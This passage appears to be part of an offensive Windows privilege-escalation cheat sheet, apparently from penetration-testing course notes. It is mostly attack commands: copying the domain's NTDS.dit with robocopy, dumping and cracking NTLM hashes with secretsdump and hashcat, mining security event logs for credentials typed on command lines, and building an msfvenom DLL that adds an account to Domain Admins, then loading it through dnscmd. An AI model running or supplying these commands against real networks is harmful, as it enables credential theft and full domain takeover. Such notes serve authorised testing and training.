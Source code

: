 #### Crack offline with Hashcat
```cmd.exe
hashcat -m 5600 nthash /usr/share/wordlists/rockyou.txt
```

#### Extracting Hashes Using SecretsDump
```Shell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### Robocopy

#### Copying Files with Robocopy
```cmd.exe
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
Copies the NTDS.dit file to a local location. The NTLM hash for the Administrator account can then be extracted and cracked with Hashcat, then used w/ secretsdump to find extract all the Domain hashes.

## Event Log Readers

#### Confirming Group Membership
```cmd.exe
net localgroup "Event Log Readers"
```

#### Searching Security Logs Using wevtutil
```PowerShell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

#### Passing Credentials to wevtutil
```cmd.exe
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```
Passes alternate credentials into `wevutil`

#### Searching Security Logs Using Get-WinEvent
```PowerShell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
Searches security logs using `Get-WinEvent`, filtering for process creation events (4688), which contain `/user` in the process command line

*The cmdlet can also be run as another user with the `-Credential `parameter.*

## DnsAdmins

#### Generating Malicious DLL
```Shell
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll 	
```
Generates a malicious DLL w/ msfvenom to add the dll to the domain admins group files for DNS.
```cmd.exe
dnscmd.exe /config /serverlevelplugindll adduser.dll 
```
Loading a custom DLL with dnscmd. Note: You must specify the full path to our custom DLL or the attack will not work properly.

